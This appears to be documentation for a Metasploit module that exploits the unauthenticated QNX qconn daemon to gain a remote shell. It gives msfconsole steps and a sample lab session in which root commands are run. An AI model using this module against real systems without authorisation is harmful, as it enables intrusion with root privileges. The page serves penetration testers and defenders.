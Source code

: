 ## Description

  This module uses the qconn daemon on [QNX](http://www.qnx.com/)
  systems to gain a shell.

  The QNX qconn daemon does not require authentication and allows
  remote users to execute arbitrary operating system commands.


## Vulnerable Application

  The QNX qconn daemon is a service provider that provides support,
  such as profiling system information, to remote IDE components.

  This module has been tested successfully on:

  * QNX Neutrino 6.5.0 (x86)
  * QNX Neutrino 6.5.0 SP1 (x86)

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/misc/qnx_qconn_exec`
  3. `set rhost <IP>`
  4. `set rport <PORT>`
  5. `run`
  6. You should get a session


## Scenarios


  ```
  msf > use exploit/unix/misc/qnx_qconn_exec 
  msf exploit(unix/misc/qnx_qconn_exec) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf exploit(unix/misc/qnx_qconn_exec) > set rport 8000
  rport => 8000
  msf exploit(unix/misc/qnx_qconn_exec) > run

  [*] 172.16.191.215:8000 - Sending payload...
  [+] 172.16.191.215:8000 - Payload sent successfully
  [*] Found shell.
  [*] Command shell session 1 opened (172.16.191.188:33641 -> 172.16.191.215:8000) at 2018-03-21 00:19:37 -0400


  0oxdgl2UgHIvCYBO
  # id
  id
  uid=0(root) gid=0(root)
  # uname -a
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

